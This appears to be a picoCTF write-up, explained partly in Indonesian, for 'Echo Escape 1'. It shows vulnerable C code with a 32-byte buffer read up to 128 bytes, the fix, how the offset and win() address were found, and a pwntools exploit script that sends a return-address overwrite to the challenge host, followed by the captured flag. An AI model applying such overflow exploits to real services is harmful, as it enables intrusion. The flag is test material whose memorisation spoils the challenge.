


# Echo Escape 1


The "secure" echo service welcomes you politely… but what if you don’t stay polite? Can you make it reveal the hidden flag? You can download the program file here and source code.

Connect to the program with netcat: 
nc mysterious-sea.picoctf.net 57417.

Author: Yahaya Meddy

Hint : Why is the program using a buffer of size 32 but reading up to 128 bytes?
Hint : Can you redirect the program’s execution flow?


## Source Code

```
#include <stdio.h>
#include <unistd.h>
#include <string.h>

void win() {
    FILE *fp = fopen("flag.txt", "rb");
    if (!fp) {
        perror("[!] Failed to open flag.txt");
        return;
    }

    char buffer[128];
    size_t n = fread(buffer, 1, sizeof(buffer), fp);
    fwrite(buffer, 1, n, stdout);
    fflush(stdout);
    printf("\n");
    fclose(fp);
}

int main() {
    char buf[32];

    printf("Welcome to the secure echo service!\n");
    printf("Please enter your name: ");
    fflush(stdout);

    read(0, buf, 128);

    printf("Hello, %s\n", buf);
    printf("Thank you for using our service.\n");

    return 0;
}
```
## Solver

Program ini akan membaca input pengguna lalu menampilkannya kembali. Ada fungsi win() yang dibuat, tetapi tidak pernah dipanggil. Terdapat kerentanan di baris kode : 

```
char buf[32];
read(0, buf, 128);
```
Karena program hanya menyediakan buffer sebanyak 32 tetapi memperbolehkan pengguna input sebesar 128. Hal ini bisa menyebabkan overflow.
```
Defend :
char buf[32]; 
read(0, buf, sizeof(buf));
```
Cari offset yang menyebabkan program SEGFAULT sehingga kita bisa mengarahkan program ke fungsi win().



Saat ret dieksekusi, CPU melakukan pop RIP dari RSP. Jadi yang perlu dicek adalah nilai di RSP+0x0000 karena saat itu ret berada di puncak stack (RSP).

Selanjutnya, kita perlu mencari alamat fungsi win(). Pertama kita perlu mengecek apakah ASLR atau PIE-nya aktif



Tidak ada PIE, berarti alamat fungsi selalu tetap dan bisa kita hardcode di payloadnya. objdump -d

0000000000401256 <win>:

Berarti, full payloadnya adalah
```
from pwn import *
p = remote('mysterious-sea.picoctf.net', 54521)
payload = b'A'* 40 + p64(0x401256)
p.sendline(payload)
p.interactive()
```

#### FLAG: `picoCTF{3ch0_s3rv1c3_br34k5_9e64053d}`